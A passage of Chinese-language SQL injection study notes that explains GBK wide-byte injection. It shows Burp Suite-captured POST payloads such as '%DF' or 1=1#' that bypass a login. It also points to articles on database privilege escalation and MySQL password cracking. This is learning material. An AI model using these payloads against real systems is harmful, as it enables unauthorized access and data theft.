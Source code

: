 **为什么可以？？？？**

用brupsuite抓包看一下：

```php
uname=%EF%BF%BD%27+or+1%3D1%3B%23&passwd=%EF%BF%BD%27+or+%C2%B71%3D1%3B%23&submit=Submit
```

发现这个，通过brupsuite，可以知道：`%EF%BF%BD` 就是 `�` ，

当反斜杠插入的时候，形成`%EF%BF %BD%5C`，而gbk编码就是两个字节进行转换，实现了反斜杠的逃逸。

而当输入的是：`%DF' or 1=1;#` 形成是：

```php
uname=%25DF%27or+1%3D1%23&passwd=%25DF%27or+1%3D1%23&submit=Submit
```

显然，在post中`%25DF` 无法使得单引号逃逸，但既然可以操作post包，我们可以直接的修改成

```php
uname=%DF%27or+1%3D1%23&passwd=%DF%27or+1%3D1%23&submit=Submit
```

发现成功的获取了信息。



#### 杂项

杂项的作用是用与记录sql注入攻击中来达到信息截取和root权限的获取的附带技能。



##### 数据库提权

来几篇文章：[渗透之——数据库提权](https://blog.csdn.net/l1028386804/article/details/85768994)  

无需多言，按照上面的文章进行操作就可。



##### 数据库密码解密

先来篇文章：[MySQL数据库密码破解](https://www.cnblogs.com/ichunqiu/p/7810914.html) 很值得看

**总结一下分这么几点:**

> 各个版本的加密方式有何异同？
>
> 加密文件存放位置在哪？
>
> 如何获取用户的加密信息？
>
> 如何解密？



###### 1. 各个版本的加密方式有何异同？

- MYSQL数据库的认证密码有两种方式：

  ```
  MYSQL 4.1版本之前是MYSQL323加密，MYSQL 4.1和之后的版本都是MYSQLSHA1加密
  ```
